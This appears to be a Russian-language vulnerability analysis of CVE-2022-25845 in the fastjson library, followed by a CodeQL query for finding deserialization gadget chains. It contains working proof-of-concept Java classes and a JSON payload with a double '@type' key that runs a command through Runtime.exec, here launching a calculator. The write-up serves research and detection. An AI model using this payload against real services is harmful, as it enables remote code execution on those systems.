

NIST: https://nvd.nist.gov/vuln/detail/CVE-2022-25845

## Описание

В целом уязвимость в `fastjson` сводится к тому, что если создать класс, наследующий от `Throwable` с сеттером (`void set...`), то при десериализации будет вызван код в сеттере, который может содержать, например. `Runtime.getRuntime().execute(...)`:

```java
public class Poc extends Throwable {
    public void setName(String str){
       Executor.execute(str);
    }
}
```

Пример JSON-пэйлоада:

```json
"{\"@type\":\"java.lang.Exception\",\"@type\":\"org.example.Poc\",\"name\":\"/usr/bin/gnome-calculator\"}";
```

После просмотра исходного кода и дебага примера ниже с целью найти трейс, в результате которого выполняется уязвимость, я определил ключевой путь с сурсом src/main/java/com/alibaba/fastjson/JSONPath.java:4133 и синком в файле src/main/java/com/alibaba/fastjson/parser/deserializer/FieldDeserializer.java#setValue (тут выполняется вся логика, связанная с вызовом сеттеров аллоцированного объекта).

## Пример выполнения уязвимости

```java
// Executor.java
package org.example;

import java.io.IOException;

class Executor {
  public static void execute(String str) throws IOException {
    Runtime.getRuntime().exec(str);
  }
}
```

```java
// Poc.java
package org.example;

import java.io.IOException;

public class Poc extends Error {
    public void setName(String str) throws IOException {
      Executor.execute(str);
    }
}
```

```java
// Poc1.java

package org.example;

import java.io.IOException;

public class Poc1 extends Error {
  private String name;

  public Poc1() throws IOException {
    Executor.execute("/usr/bin/gnome-calculator");
  }

  public void setName(String value) {
    this.name = value;
  }
}
```

```java
// PocDemo.java
package org.example;

import com.alibaba.fastjson.JSON;

import java.io.IOException;

public class PocDemo {
    public static void main(String[] args) throws IOException {
        String json_1 = "{\"@type\":\"java.lang.Exception\",\"@type\":\"org.example.Poc\",\"name\":\"/usr/bin/gnome-calculator\"}";
        String json_2 = "{\"@type\":\"java.lang.Exception\",\"@type\":\"org.example.Poc1\",\"name\":\"/usr/bin/gnome-calculator\"}";

        JSON.parseObject(json_1);
        JSON.parseObject(json_2);
    }
}
```



Оба варианта, с пробросом команды в сеттер и вызовом команды в конструкторе, работают.

## QLInspector

Найдем путь от сурса до синка в fastjson для случая выполнения кода сеттера. Будем ориентироваться на трейс, описанный выше


```java
import java
import DangerousMethods
import Source


private class DangerousExpression extends Expr {
  DangerousExpression() {
    ( this instanceof Call and this.(Call).getCallee() instanceof DangerousMethod ) or
    ( this instanceof LambdaExpr and this.(LambdaExpr).getExprBody().(MethodAccess).getMethod() instanceof DangerousMethod)
  }
}

private class CallsDangerousMethod extends Callable {
  CallsDangerousMethod(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this)
  }
}

private class RecursiveCallToDangerousMethod extends Callable {
  RecursiveCallToDangerousMethod(){

    not this instanceof Sanitizer and

    /*
    /* can be commented for more results
    */
    (
      getDeclaringType().getASupertype*() instanceof TypeSerializable or
      this.isStatic()
    )

    and

    (
     this instanceof CallsDangerousMethod or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe))
    )
  }

    /*
    /* linking a RecursiveCallToDangerousMethod to a DangerousExpression
    */
    DangerousExpression getDangerousExpression(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this and result = de ) or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe) and result = unsafe.(RecursiveCallToDangerousMethod).getDangerousExpression())
    }
}


/*
*
* global filter to block function in the chain,
* method names can be added when you found a false positive
*
*/
private class Sanitizer extends Callable {
  Sanitizer(){
    hasName([""])
  }
}


query predicate edges(ControlFlowNode node1, ControlFlowNode node2) {
    (node1.(MethodAccess).getMethod().getAPossibleImplementation() = node2 and node2 instanceof RecursiveCallToDangerousMethod) or
    (node2.(MethodAccess).getEnclosingCallable() = node1 and node1 instanceof RecursiveCallToDangerousMethod)
}

predicate hasCalls(RecursiveCallToDangerousMethod c0, RecursiveCallToDangerousMethod c1) {
    c0.polyCalls(c1) or exists(RecursiveCallToDangerousMethod unsafe | c0.polyCalls(unsafe) and hasCalls(unsafe, c1))
}


//================ find sink  ================

// from Callable c0,  DangerousExpression de
// where c0 instanceof RecursiveCallToDangerousMethod and
// de.getEnclosingCallable() = c0
// select c0, de

//================ find source  ===============


// from Callable c0
// where c0 instanceof RecursiveCallToDangerousMethod and
// c0 instanceof Source
// select c0


//=======  link the source and the sink  ======

// from RecursiveCallToDangerousMethod c0,  RecursiveCallToDangerousMethod c1, DangerousExpression de
// where de.getEnclosingCallable() = c1 and
// c0 instanceof Source and
// hasCalls(c0, c1)
// select c0, c0, c1, "recursive call to dangerous expression $@", de, de.toString()


//========== check source to sink path  ==========
// from Callable c0, MethodAccess ma , Callable c1
// where c0 instanceof RecursiveCallToDangerousMethod and
// ma = c0.(RecursiveCallToDangerousMethod).getDangerousExpression() and
// ma.getMethod() instanceof ReflectionInvocationMethod and
// c0 instanceof Source
// select  c0, ma

// from RecursiveCallToDangerousMethod c0,  RecursiveCallToDangerousMethod c1, DangerousExpression de
// where de.getEnclosingCallable() = c1 and
// c0 instanceof Source and
// hasCalls(c0, c1)
// select c0, c0, c1, "recursive call to dangerous expression $@", de, de.toString()

from Callable source, Callable sink
where
sink instanceof CallsDangerousMethod
and source.polyCalls(sink)
// and sink.getFile().toString().regexpMatch(".*FeildDeserializer.java")
select  source, sink, sink.getFile()

```

В результате выполнения запроса получаем несколько десятков путей, многие из которых повторяются. С учетом того, что основная фича библиотеки -- аллокация и популяция объектов с помощью reflection, неудивительно, что найдено много подозрительных gadget chains.

Результат:


